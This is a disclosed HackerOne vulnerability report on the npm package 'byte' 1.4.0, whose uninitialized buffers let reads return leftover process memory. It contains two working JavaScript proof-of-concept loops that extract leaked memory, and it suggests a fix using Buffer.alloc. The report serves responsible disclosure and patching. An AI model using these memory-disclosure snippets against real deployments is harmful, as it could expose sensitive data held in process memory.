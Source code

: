 # `byte` allocates uninitialized buffers and reads data from them past the initialized length

## Report Details
- **Report ID**: 330351
- **URL**: https://hackerone.com/reports/330351
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-03-27T13:37:06.258Z
- **Disclosed**: 2018-05-11T20:25:26.435Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a memory exposure vulnerbaility in `byte`
It allows to extract process memory using Buffers in some cases.

# Module

**module name:** `byte`
**version:** 1.4.0
**npm page:** `https://www.npmjs.com/package/byte`

## Module Description

> Input Buffer and Output Buffer, just like Java ByteBuffer.

## Module Stats

705 downloads in the last day
3 836 downloads in the last week
14 813 downloads in the last month

# Vulnerability

## Vulnerability Description

`byte` allocates uninitialized buffers on all Node.js versions, even on the ones that zero-full `new Buffer()` by default, as it uses `.allocUnsafe()`. It provides an API for writing data and an API for reading data from the buffer, but the internal buffer is not zero-filled and the API for reading does not validate that the memory being read was ever initialized.

I also don't think this corresponds to behavior  of the Java ByteBuffer — that one is zero-filled afaik.

## Steps To Reproduce:

```js
var ByteBuffer = require('byte');
for (let k = 0; k < 1e4; k++) {
  var bb = new ByteBuffer();
  for (let i = 0; i < 180; i++) {
    bb.putString('ok');
  }
  const s = bb.getString(1000);
  if (s.includes(' {')) {
    console.log(s);
    console.log('Finished at attempt: ' + k);
    break;
  }
}
```

```js
var ByteBuffer = require('byte');
for (let k = 0; k < 1e4; k++) {
  var bb = ByteBuffer.allocate(50);
  const twos = Buffer.alloc(10, 2);
  for (let i = 0; i < 7; i++) bb.put(twos, 10);
  const s = bb.get(0, 100);
  if (s.includes(' {')) {
    console.log(s.toString('utf-8'));
    console.log('Finished at attempt: ' + k);
    break;
  }
}
```

## Patch

Replace all `Buffer(num)` and `Buffer.allocUnsafe(num)` usage with `Buffer.alloc(num)` and use a polyfill, e.g. [safer-buffer](https://www.npmjs.com/package/safer-buffer) or [buffer-alloc](https://www.npmjs.com/package/buffer-alloc).

## Supporting Material/References:

- OS: Arch Linux current
- Node.js 9.9.0
- npm 5.8.0

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

Read process memory containing sensitive information.

## Attachments
No attachments

